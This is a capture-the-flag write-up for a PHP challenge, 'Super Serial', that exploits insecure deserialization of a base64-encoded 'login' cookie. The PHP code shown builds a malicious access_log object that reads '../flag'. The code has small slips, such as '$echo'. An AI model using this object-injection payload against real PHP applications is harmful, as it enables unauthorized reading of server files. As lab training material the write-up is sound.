 # Super Serial

## Analysis

We are faced with a simple login form, which does not allow any basic login attempts.
The server also contains a ``robots.txt`` which indicates that the server reveals the content of php files via the ``phps`` extensions.
This could be verified by accessing ```/index.phps```.
It gives access to the PHP code used by the server.
The server makes use of PHP serialization (in ``cookies.php``) which might be vulnerable to several attacks.
Moreover, the file `authentication.php` contains a class (`access_log`) which accesses files on the file system upon calling `__toString()`.

## Solution

The server checks if the user provided a cookie name `login`.
If this cookie is provided, its content is url decoded, base64 decoded and finally deserialized.
If the deserialization files or if the deserialized object does not have the methods `is_guest` or `is_admin`, the `__toString()` method of the deserialized object will be called in the catch logic.
Hence, if we craft a `access_log` which points to the relative flag location `../flag`.
We finally serialize, base64 encode and url encode this object and provide it in the `login` cookie.
To do so, the following PHP code was used to create the malicious cookie:

```php
<!DOCTYPE html>
<html>
<body>

<?php
class access_log
{
    public $log_file;

    function __construct($lf) {
        $this->log_file = $lf;
    }

    function __toString() {
        return $this->read_log();
    }

    function append_to_log($data) {
        file_put_contents($this->log_file, $data, FILE_APPEND);
    }

    function read_log() {
        return file_get_contents($this->log_file);
    }
}

$ob = new access_log("../flag");
$payload = urlencode(base64_encode(serialize($ob)));
$echo $payload;

</html>
</body>
```